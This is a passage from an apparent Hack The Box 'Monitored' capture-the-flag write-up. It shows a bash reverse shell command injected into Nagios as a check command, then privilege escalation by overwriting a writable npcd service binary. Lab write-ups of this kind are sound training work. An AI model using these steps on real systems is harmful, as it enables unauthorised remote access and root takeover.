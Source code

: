 Select `Commands` and then `Add New`.

![Core Config Manager](/images/HTB-Monitored/config-cmd.png)

![Add new command](/images/HTB-Monitored/new-cmd.png)

Add a reverse shell command and save it.  For example: `bash -c 'bash -i >& /dev/tcp/<IP_Address>/<Port> 0>&1'`

![Reverse shell command](/images/HTB-Monitored/rev-shell-cmd.png)

You also have to click `Apply Configuration` for the new command to be listed. Now you should see `149 Commands`.

![Apply configuration](/images/HTB-Monitored/apply-config.png)

Let's start a listener on the port specified in our command.

To run the command go to `Monitoring` > `Hosts` > click on `localhost`.

![Configuration - localhost](/images/HTB-Monitored/localhost.png)

Under `Check command`, select your command and click `Run Check Command` and you will get a connection on your listener.

![Initial Foothold](/images/HTB-Monitored/nagios-shell.png)

You can get the user flag at `/home/nagios/user.txt`.

![User flag](/images/HTB-Monitored/user-flag.png)

## Privilege Escalation

Running `sudo -l` we discover that the user can manipulate two services `nagios` and `npcd` in addition to running various scripts.

![sudo -l command](/images/HTB-Monitored/sudo-l.png)

> The npcd service in Nagios is a **daemon** responsible for processing **performance data** received from Nagios checks.

Using the `find` command we get the exact locations of `nagios` and `npcd`.

```
find / -name nagios 2> /dev/null

find / -name npcd 2> /dev/null
```

![services locations](/images/HTB-Monitored/services-location.png)

We also check the permissions of the binaries and we notice that we have write permission for  `npcd`. We can edit the file content and replace it with a malicious command to get a shell.

![Binaries permissions](/images/HTB-Monitored/binaries-perms.png)
